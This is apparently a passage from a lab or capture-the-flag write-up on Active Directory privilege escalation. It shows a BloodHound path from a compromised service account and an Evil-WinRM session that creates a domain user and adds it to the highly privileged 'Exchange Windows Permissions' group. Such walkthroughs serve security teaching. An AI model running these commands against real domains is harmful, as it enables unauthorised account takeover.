 # Finding Shortest Paths to Domain Admins from Owned Principals(svc-alfreso user)
First of all we will mark svc-alfresco as owned.
![[Pasted image 20210727192051.png]]
Then we will find Shortest Paths to Domain Admins from Owned Principals(svc-alfreso user)
![[Pasted image 20210727192533.png]]
As svc-alfresco user is member of Account Operators group, so The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.
Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the [Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-admins), [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), [Account Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators), [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators), or [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-printoperators) groups. Members of this group cannot modify user rights. [Link to read about account operators group further](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups)
In short, we can create new account and add it to `Exchange Windows Permissions` group because `svc-alfreso` user is member of  Account Operators group via following method.
```powershell

*Evil-WinRM* PS clark:\> net user stuart 1234567 /add /domain
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions" /add stuart
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
stuart
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
stuart
The command completed successfully.

*Evil-WinRM* PS clark:\>
```

